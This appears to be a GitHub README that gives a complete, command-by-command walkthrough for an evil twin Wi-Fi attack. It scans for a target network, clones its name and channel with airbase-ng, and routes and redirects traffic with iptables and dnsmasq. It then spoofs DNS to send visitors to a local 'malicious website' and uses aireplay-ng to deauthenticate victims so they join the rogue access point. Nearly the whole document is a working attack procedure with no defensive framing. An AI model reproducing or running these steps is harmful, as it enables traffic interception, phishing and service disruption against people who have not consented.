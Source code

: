 # How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# TODO
- need to capture the specific device with airodump-ng wlan1mon
- must make sure monitoring wlan1 is not connected to internet
- explain all steps in detail
- add screenshots

# Prerequisites
- kali linux
- may need an external usb wifi adapter

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	
2. Configure dns masq

	```
	mkdir /Desktop/eviltwin
	cd /Desktop/eviltwin
	touch dnsmasq.conf
	```

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

3. Update NetworkManager.conf
	`vim /etc/NetworkManager/NetworkManager.conf`
	Add these lines to the end: 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

4. View available internet interfaces  
	`iwconfig`
	You should see several devices such as eth0, wlan0, lo, etc.
	Now plug in your usb wireless adapter and run the command again.
	`iwconfig`
	You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.

5. Enable the wireless adapter  
	`ifconfig wlan1 up`

6. Ensure the wireless card is not connected to internet  
	`nmcli con`
	If it is connected, disconnect it from the network that is connected to our adapter
	`nmcli con down <UUID>`

7. Now we will create a monitor interface by putting the wireless adapter into monitor mode.  
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.  
	`iwconfig`
	It will have a name such as `wlan1mon`.

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID  
	 First update known manufacturer mac addresses of routers: `airodump-ng-oui-update`
	 Then get a list of all the devices broadcasting around you.
	`airodump-ng wlan1mon`
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit `ctrl+c` and then copy that line to a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.

9. Now for fun, take a look at the devices connected to that network.  
	Enter the BSSID from the previous step in this command
	`airodump-ng -d <BSSID> wlan1mon`

9. Lets boost our signal strength, to the max legal limit in the US.  
	Note that not all wireless adapters support this.
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again check the signal strength with `iwconfig wlan1mon`

9. start up the evil twin AP (access point)  
	Give the evil twin the same name as the network you are attacking on the same channel.
	`airbase-ng -e "EvilTwinName" -c 11 wlan1mon`
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. 

10. Give the evil twin can access the internet.  
	`ifconfig at0`
	give at0 an ip address: `ifconfig at0 10.0.0.1 up`

11. route all traffic through the at0 interface.  
	The device wlan0, or eth0 in the second line, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

12. enable port forwarding  
	`echo 1 > /proc/sys/net/ipv4/ip_forward`

13. evil twin is now setup, now need to allocate ip addresses to clients  
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`
	Congratulations, you have setup hotspot for yourself.

14. Now we can start a local Apache webserver that we can redirect traffic to.  
	Place a webpage under `/var/www/html/index.html`. Ours is named index.html. 
	Start the server: `sudo /etc/init.d/apache2 start`

15. Your apache server is running locally. Record the IP address  
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

15. Now we can do some dns spoofing.  
	Create a file `config/dnsspoof.conf`
	Add urls you want to spoof to it. For example this will redirect anyone trying to visit http://www.example.com to our local apache server. 
	`127.0.0.1	example.com`
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic.

16. Now deauthorize clients so they connect to our network instead of their legit network.  
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`


# Caveats
Only works for http websites, not https websites 

## Sources
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
This one is good too: rootsh3ll.com/evil-twin-attack/





